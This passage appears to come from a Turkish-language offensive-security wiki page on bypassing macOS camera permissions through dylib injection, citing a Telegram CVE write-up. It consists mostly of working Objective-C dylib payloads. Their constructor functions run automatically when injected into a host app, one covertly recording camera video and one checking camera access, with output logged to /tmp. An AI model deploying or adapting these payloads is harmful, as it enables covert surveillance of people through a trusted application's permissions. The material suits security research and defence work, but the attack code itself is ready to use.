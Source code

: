 ```objectivec
[self.movieFileOutput stopRecording];
[self.captureSession stopRunning];
NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray<AVCaptureConnection *> *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording failed: %@", [error localizedDescription]);
} else {
NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
}
}
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
[videoRecorder startRecording];
[NSThread sleepForTimeInterval:3.0];
[videoRecorder stopRecording];
[[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="ObjectiveC - Check"}}
Programın kameraya erişimi olup olmadığını kontrol edin.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to camera granted.");
return YES;
} else {
NSLog(@"[-] Access to camera denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
[CameraAccessChecker hasCameraAccess];
fclose(stderr); // Close the file stream
}
```
{{#endtab}}
